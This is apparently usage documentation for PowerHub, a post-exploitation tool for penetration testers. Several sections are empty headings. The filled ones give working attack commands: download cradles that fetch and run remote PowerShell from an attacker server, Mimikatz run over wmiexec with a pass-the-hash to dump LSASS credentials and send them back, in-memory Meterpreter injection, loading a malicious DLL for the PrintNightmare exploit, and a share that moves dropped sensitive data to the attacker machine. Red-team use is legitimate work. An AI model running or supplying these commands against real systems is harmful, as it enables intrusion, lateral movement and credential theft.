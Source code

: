 # Usage

## Nomenclature

### Download cradle

### Stager

### Launcher

### Payload

### Module


## Typical workflow

## Features

### Hub

### Modules

### File Exchange

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

This feature can also be used on the command line with `PushTo-Hub`. It can transfer files or data from stdin via HTTP back to the PowerHub server.

### Static Files

TODO


### WebDAV

PowerHub also provides several WebDAV shares. You can mount it on the target as
two network drives with `Mount-WebDAV` or `mwd` (as `S:` and `R:` by
default). Be careful, it allows anonmyous access.

One drive is read-only -- maybe you can bypass a weak anti virus with this.
Some exploits require a DLL, so the idea is that you mount the  WebDAV
drive, put malicious DLLs in the read-only directory, and then load them
like this:

```powershell
PS C:\> Import-Module .\cve-2021-1675.ps1
PS C:\> Invoke-Nightmare -DLL "R:\evil-exploit-code.dll"
```

The other has two folders and is writeable by everyone:

* `public` with read/write access for everyone
* `blackhole` for dropping sensitive data. Any file placed here via WebDAV
  will immediately be moved to the `upload` directory on the attacker machine.


### profile.ps1

You can create the file `profile.ps1` in `$XDG_DATA_HOME/powerhub/` which will be automatically executed when loading PowerHub on the Windows machine. This is my `profile.ps1`:

```powershell
# Make powershell tab completion behave more like bash
try {Set-PSReadlineKeyHandler -Key Tab -Function Complete} catch {}

# Put some commands that I pretty much always want to run in one function
function Run-Init {
    Param(
        [parameter(Mandatory=$False)]
        [String]$Label = "Bloodhound"
    )
    Get-SysInfo | PushTo-Hub -Name sysinfo.txt
    Get-HubModule "PrivescCheck.ps1"
    Invoke-PrivescCheck -Extended -Report privesccheck
    PushTo-Hub "privesccheck.txt"
    Get-HubModule "sharphound.exe"
    SharpHound.exe -c All --trackcomputercalls --searchforest --zipfilename $Label --outputdirectory (Get-Location).Path
    PushTo-Hub (Get-ChildItem "*_$Label.zip")
    # To test application control and to have an awesome screenshot tool:
    Get-HubModule "Greenshot" | Run-Exe -OnDisk
}
```

### Binary payloads

## Examples


### Running Mimikatz on a remote system

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with [Mimikatz](https://github.com/gentilkiwi/mimikatz) via [Impacket](https://github.com/SecureAuthCorp/impacket)'s `wmiexec.py`:

```console
$ wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/\"); ghm Mimikatz; Invoke-Mimikatz | pth -Name mimikatz.txt "'
```

### Meterpreter

Let's say you want to execute a meterpreter in memory, then you do this after placing `meterpreter.exe` in `$XDG_DATA_HOME/powerhub/modules/exe` (don't forget to reload the modules!):

```
PS C:\Users\pentestuser> $K=new-object net.webclient;IEX $K.downloadstring("http://10.0.100.13:8000/0");
PS C:\Users\pentestuser> ghm ReflectivePEInjection; ghm meterpreter.exe|re
```

It should be a staged Meterpreter to keep the binary sufficiently small. I usually use `windows/x64/meterpreter/reverse_https`.

### Empire

Add an Empire launcher to the clipboard, mark it as "executable", then choose the corresponding clipboard ID as "Clip-Exec" in the PowerHub cradle builder.
